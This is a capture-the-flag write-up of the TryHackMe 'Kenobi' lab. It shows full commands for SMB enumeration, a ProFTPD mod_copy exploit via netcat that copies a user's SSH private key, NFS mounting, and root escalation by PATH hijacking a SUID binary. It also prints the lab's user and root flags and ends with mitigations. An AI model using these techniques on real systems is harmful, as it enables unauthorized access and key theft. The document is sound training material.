

- Author: Pedro Daniel Gonçalves Antunes
- Date: 10 July 2025
- Target: 10.10.19.34
## **1. Introduction**

This report documents the full process of compromising the "Kenobi" machine from the TryHackMe platform. The methodology involved initial network enumeration to identify open services, exploitation of a vulnerable network share and FTP service to gain an initial foothold, and privilege escalation to root by exploiting a misconfigured SUID binary on the system.
## **2. Initial Enumeration**
The first step was to perform a full port scan using `nmap` to identify all open services on the target machine. The `-sV` flag was used to probe for service versions.
```bash
nmap -sV 10.10.19.34 
```


The scan revealed **7 open ports**. The most promising services for initial enumeration were:
- **Port 21:** FTP (ProFTPD 1.3.5)
- **Port 111:** RPCbind
- **Port 445:** SMB (Samba smbd 4.3.11-Ubuntu)
## **3. Gaining an Initial Foothold**
Given the open SMB port, I proceeded to enumerate it for any accessible network shares using `nmap`'s scripting engine (NSE).
```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.19.34
```
The script discovered **3 shares**, including one of particular interest named `anonymous`. I connected to this share using `smbclient`, providing no password.


```bash
smbclient //10.10.19.34/anonymous
```
Inside the share, I found a file named `log.txt`. I downloaded it for further analysis using the `get` command within the `smbclient` prompt.


This log file contained two critical pieces of information:
1. The location of a private SSH key for a user named **Kenobi** (`/home/kenobi/.ssh/id_rsa`).
2. Details about the ProFTPD server software.
### 3.2. Exploiting ProFTPD

The `log.txt` file confirmed that ProFTPD was running on **port 21**. My initial `nmap` scan had already identified the version as **1.3.5**. A quick search with `searchsploit` revealed that this specific version is vulnerable.

``` bash
searchsploit proftpd 1.3.5
```

The search returned **3 main exploits**. The most relevant one is related to the `mod_copy` module, which allows an unauthenticated user to copy files on the server using the `SITE CPFR` (Copy From) and `SITE CPTO` (Copy To) commands.

The plan was clear: use this vulnerability to copy Kenobi's private SSH key from its protected location (`/home/kenobi/.ssh/id_rsa`) to a world-accessible directory. My earlier enumeration had shown that the `/var` directory was mountable via NFS (Network File System). Therefore, `/var/tmp` would be a perfect destination.

Using `netcat` to connect to the FTP port, I issued the commands to copy the key:
```bash
nc 10.10.19.34 21
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
```

### 3.3. Accessing the Machine
With the private key now in `/var/tmp`, I mounted the NFS share to my local machine to retrieve it.
```bash
#Create a local directory for the mount
mkdir /mnt/kenobiNFS

#Mount the remote share
sudo mount 10.10.19.34:/var /mnt/kenobiNFS

#Copy the key to our current directory
cp /mnt/kenobiNFS/tmp/id_rsa .
```


Finally, I set the correct permissions for the private key and used it to log in as the `kenobi` user via SSH.
```bash
chmod 600 id_rsa
ssh -i id_rsa kenobi@10.10.19.34
```


Success! I now had a user shell on the machine. The user flag was retrieved from `/home/kenobi/user.txt`.

**User Flag:** `d0b0f3f53b6caa532a83915e19224899`
## 4. Privilege Escalation to Root
The final step was to escalate privileges from `kenobi` to `root`. I started by searching for files with the SUID bit set, as these files run with the permissions of their owner (often root), which can be a common vector for privilege escalation.
```bash
find / -perm -u=s -type f 2>/dev/null
```


The list of SUID files showed a very unusual binary: `/usr/bin/menu`. This is not a standard Linux binary and immediately became my primary target.

Executing the binary revealed it was a simple command-line menu with **3 options**.

I used the `strings` command to look for readable text within the binary, which can reveal its functionality.

The `strings` output showed that the binary was calling other system commands like `curl` and `uname` without specifying their full path (e.g., `/bin/curl`). This is a classic **Path Hijacking** vulnerability. Since the binary runs as root, if I can make it execute my own malicious `curl` file instead of the real one, my file will also run as root.

I executed the following steps to exploit this:

1. Navigate to a world-writable directory like `/tmp`.
2. Create a new file named `curl`.
3. Write `#!/bin/bash\n/bin/sh` into the file, which tells the system to execute a shell.
4. Make the file executable with `chmod +x curl`.
5. Prepend the `/tmp` directory to the system's `PATH` variable. This forces the system to look in `/tmp` for binaries first.
6. Run the `/usr/bin/menu` binary and select an option that calls `curl`.


We select option 1 on the menu, and this successfully spawned a shell with `root` privileges. The root flag was retrieved from `/root/root.txt`.


**Root Flag:** `177b3cd8562289f37382721c28381f02`
## **5. Conclusion & Mitigations**

The Kenobi machine was compromised by chaining multiple vulnerabilities.

- **Initial Access:** An outdated version of ProFTPD (1.3.5) allowed an unauthenticated attacker to copy files on the system, leading to the theft of a user's private SSH key.
- **Privilege Escalation:** A custom-developed SUID binary was vulnerable to Path Hijacking, allowing a low-privilege user to gain a root shell.

**Mitigation steps should include:**

1. **Patching Software:** Update ProFTPD to a version that is not vulnerable to the `mod_copy` exploit.
2. **Principle of Least Privilege:** Avoid using the SUID bit on custom applications. If necessary, ensure the application code specifies the full path for any system commands it executes to prevent Path Hijacking.
3. **Network Security:** Restrict access to network shares like SMB and NFS. Anonymous and public shares should be disabled unless absolutely essential.
